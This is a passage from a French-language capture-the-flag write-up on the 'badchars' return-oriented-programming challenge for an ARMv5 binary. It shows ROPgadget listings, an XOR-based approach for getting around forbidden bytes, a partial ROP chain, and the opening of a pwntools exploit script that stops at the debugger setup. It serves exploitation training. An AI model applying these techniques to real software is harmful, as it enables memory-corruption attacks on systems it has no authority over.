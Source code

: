Le second gadget est ce qu'il nous faut.

En chargeant `r5` avec une adresse et `r6` avec un masque le contenu de `r5` est xoré.


Gadget d'écriture :

    05_badchars# ROPgadget --binary badchars_armv5 --depth 4|grep str
    0x00010604 : add r1, r1, r6 ; str r1, [r5] ; pop {r0, pc}
    0x000105a4 : bl #0x1052c ; mov r3, #1 ; strb r3, [r4] ; pop {r4, pc}
    0x0001061c : eor r1, r1, r6 ; str r1, [r5] ; pop {r0, pc}
    0x00010600 : ldr r1, [r5] ; add r1, r1, r6 ; str r1, [r5] ; pop {r0, pc}
    0x00010618 : ldr r1, [r5] ; eor r1, r1, r6 ; str r1, [r5] ; pop {r0, pc}
    0x000105f0 : ldr r1, [r5] ; sub r1, r1, r6 ; str r1, [r5] ; pop {r0, pc}
    0x000105a8 : mov r3, #1 ; strb r3, [r4] ; pop {r4, pc}
    0x0001060c : pop {r0, pc} ; str r3, [r4] ; pop {r5, r6, pc}
    0x000105f8 : str r1, [r5] ; pop {r0, pc}
    0x00010608 : str r1, [r5] ; pop {r0, pc} ; str r3, [r4] ; pop {r5, r6, pc}
    0x00010610 : str r3, [r4] ; pop {r5, r6, pc}
    0x000105ac : strb r3, [r4] ; pop {r4, pc}
    0x000105f4 : sub r1, r1, r6 ; str r1, [r5] ; pop {r0, pc}

On retient le plus simple

    0x00010610 : str r3, [r4] ; pop {r5, r6, pc}


    0x00010614 : pop {r5, r6, pc}
    0x00010478 : pop {r3, pc}
    0x000105b0 : pop {r4, pc}

    0x00010690 : pop {r3, pc}


### La chaîne de ROP

| ROP entry | comment |
| ----------- | ------- |
| 0 | pour pop r4 de la fin de fonction |
| 0 | pour pop r11 de la fin de fonction |
| 0x00010690 | pop {r3, pc} |


## Exploitation

### Le script python

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time

# Set up pwntools for the correct architecture
elf = context.binary = ELF('badchars_armv5')

#context.terminal=["tmux", "splitw", "-h"]
context.terminal=["/usr/bin/xterm", "-fa", "Monospace", "-fs","12", "-e"]

# 156 : read
# 328 : ret
gs='''
b *pwnme+156
b *pwnme+328
c
'''
```